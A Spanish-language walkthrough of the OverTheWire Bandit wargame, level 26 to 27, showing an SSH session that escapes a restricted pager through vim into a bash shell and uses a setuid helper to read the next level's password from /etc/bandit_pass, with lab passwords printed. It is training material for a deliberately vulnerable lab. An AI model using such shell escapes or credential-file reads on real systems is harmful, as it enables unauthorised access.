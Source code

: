 # Bandit Level 26→ Level 27

# Objetivos
Good job getting a shell! Now hurry and grab the password for bandit27!

# Datos de acceso al nivel
```bach
bandit26
c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
```
# Solución
```bash
C:\Users\Admin>ssh bandit26@bandit.labs.overthewire.org -p 2220
_ _ _ _ ___ __
| | | (_) | |__ \ / /
| |__ __ _ _ __ __| |_| |_ ) / /_
--More--(63%)
v
_ _ _ _ ___ __
| | | (_) | |__ \ / /
| |__ __ _ _ __ __| |_| |_ ) / /_
| '_ \ / _` | '_ \ / _` | | __| / / '_ \
| |_) | (_| | | | | (_| | | |_ / /| (_) |
"~/text.txt" [readonly] 6L, 258B
:set shell=/bin/bash
:shell
[No write since last change]
bandit26@bandit:~$ bandit26@bandit:~$ ls
bandit27-do text.txt
bandit26@bandit:~$ ./bandit27-do id
uid=11026(bandit26) gid=11026(bandit26) euid=11027(bandit27) groups=11026(bandit26)
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS
bandit26@bandit:~$
bandit26@bandit:~$ exit
:qa!
q

```


# Notas adicionales
|Comando|Descripcion|
|---|---|
|vim | Vim es  editor de texto utilizado en sistemas Unix y Linux. Se caracteriza por su alta configurabilidad y numerosas funcionalidades. Vim opera en una terminal de texto y ofrece modos para editar, navegar y realizar diversas acciones en archivos de texto.



# Referencias
